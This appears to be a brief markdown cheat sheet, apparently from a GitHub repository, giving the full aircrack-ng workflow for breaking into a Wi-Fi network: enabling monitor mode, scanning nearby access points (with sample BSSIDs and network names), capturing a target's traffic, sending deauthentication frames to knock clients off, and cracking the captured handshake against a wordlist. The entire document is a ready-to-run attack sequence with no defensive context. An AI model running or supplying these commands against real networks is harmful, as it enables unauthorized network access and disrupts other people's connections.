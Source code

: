 ### enable monitor mode
```
sudo ifconfig wlan0 down
sudo airmon-ng start wlan0
```



### airodump-ng scanning
```
sudo airodump-ng wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### save traffic packets
```
sudo airodump-ng --bssid 00:00:00:00:00:00 -w 파일 이름 wlan0mon
```


### execute aireplay-ng
```
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```


### crack password
```
sudo aircrack-ng filename.cap -w dict.lst
```
